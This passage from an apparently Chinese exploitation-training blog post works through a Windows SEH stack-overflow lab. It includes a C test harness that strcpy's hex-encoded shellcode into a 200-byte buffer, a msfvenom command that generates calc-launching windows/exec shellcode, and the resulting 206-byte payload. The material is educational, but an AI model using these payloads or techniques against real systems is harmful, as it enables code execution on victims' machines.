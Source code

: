 ```c
"\x2c\xbb\x95\x5f\xab\x57\x61\x3d\x6a\x0a\x38\x1e\x75\xa9\x33\xdb"
"\x53\x68\x2d\x6a\x6f\x62\x68\x67\x6f\x6f\x64\x8b\xc4\x53\x50\x50"
"\x53\xff\x57\xfc\x53\xff\x57\xf8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x98\xfe\x12\x00";

DWORD MyExceptionhandler(void)
{
	printf("got an exception, press Enter to kill process!\n");
	getchar();
	ExitProcess(1);
	return 0;
}

void test(char *input)
{
	char buf[200];
	int zero = 0;
	//__asm int 3
	__try
	{
		strcpy(buf, input);
		zero = 4 / zero;
	}
	__except(MyExceptionhandler()){}
}

int main()
{
	test(shellcode);
	return 0;
}
```

测试：

![Screen Shot 2018-07-08 at 2.42.21 PM.png]({{ site.url }}/images/0day/A596FB66EF0FE740C8948BEB965EA1FC.png)

另外，我们可以结合"0day安全 Chapter 4 用Metasploit开发Exploit"的内容，稍微修改一下shellcode，做一个计算器弹窗：

```bash
msfvenom --payload windows/exec cmd=calc --format c --arch x86 --platform windows --bad "\x00" --smallest
```

得到206字节长的shellcode：

```c
unsigned char buf[] =
"\x31\xc9\xb1\xbc\xe8\xff\xff\xff\xff\xc1\x5e\x30\x4c\x0e\x07"
"\xe2\xfa\xfd\xea\x81\x04\x05\x06\x67\x81\xec\x3b\xcb\x68\x86"
"\x5e\x3f\x9b\x43\x1e\x98\x46\x01\x9d\x65\x30\x16\xad\x51\x3a"
"\x2c\xe1\xb3\x1c\x40\x5e\x21\x08\x05\xe7\xe8\x25\x28\xed\xc9"
"\xde\x7f\x79\xa4\x62\x21\xb9\x79\x08\xbe\x7a\x26\x40\xda\x72"
"\x3a\xed\x6c\xb5\x66\x60\x40\x91\xc8\x0d\x5d\xa5\x7d\x01\xc2"
"\x7e\xc0\x4d\x9b\x7f\xb0\xfc\x90\x9d\x5e\x55\x92\x6e\xb7\x2d"
"\xaf\x59\x26\xa4\x66\x23\x7b\x15\x85\x3a\xe8\x3c\x41\x67\xb4"
"\x0e\xe2\x66\x20\xe7\x35\x72\x6e\xa3\xfa\x76\xf8\x75\xa5\xff"
"\x33\x5c\x5d\x21\x20\x1d\x24\x24\x2e\x7f\x61\xdd\xdc\xde\x0e"
"\x94\x6c\x05\xd4\xe0\x8a\x01\x08\x3c\x8f\x90\x91\xc2\xfb\xa5"
"\x1e\xf9\x10\x67\x4c\x21\x6b\x29\x3f\xc8\xf7\x06\x34\x1f\x3e"
"\x5b\x70\x9a\xa1\xd4\xa3\x2a\x50\x4c\xd8\xab\x14\xf7\xa2\xc0"
"\xdc\xde\xb5\xe5\x48\x6d\xda\xdb\xd7\xdf\xbd";
```
